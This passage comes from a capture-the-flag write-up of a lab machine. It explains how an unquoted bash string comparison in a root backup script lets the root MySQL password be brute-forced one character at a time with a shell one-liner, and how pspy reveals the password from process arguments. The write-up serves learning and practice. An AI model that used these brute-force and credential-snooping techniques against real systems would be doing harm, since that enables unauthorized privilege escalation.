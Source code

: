 There's a problem with the unquoted string comparison in that script. The right side of the comparison is not quoted, so bash does partial pattern matching against it instead of requiring an exact match.

The correct password can be brute-forced with a `bash` one-liner:

```console
joshua@codify:/tmp$ pw=''; while true; do for i in {a..z} {1..9}; do echo "${pw}${i}\*" | sudo /opt/scripts/mysql-backup.sh 2>/dev/null | grep -q '^Password confirmed' && pw="${pw}${i}" && echo $pw ; done; done
k
kl
klj
kljh
kljh1
kljh12
[...]
^C
```

If that had not worked, I could have tried again with uppercase characters and symbols (…although I'm writing this with the benefit of hindsight having brute-forced the password another way.)

I'm also able to recover the password using [pspy](https://github.com/DominicBreuker/pspy) by running the script and inspecting the args for `mysql`. I use `scp` to place a static version of `pspy` on the target and start it up, while running the vulnerable script in another shell:

```console
joshua@codify:~$ /tmp/pspy64
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░
                   ░           ░ ░
                               ░ ░

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2023/11/13 18:16:09 CMD: UID=1000  PID=41537  | /tmp/pspy64
[...]
2023/11/13 18:16:48 CMD: UID=0     PID=41565  | /bin/bash /opt/scripts/mysql-backup.sh
2023/11/13 18:16:48 CMD: UID=0     PID=41564  | /usr/bin/mysql -u root -h 0.0.0.0 -P 3306 -pkljh12[...] -e SHOW DATABASES;
[...]
```
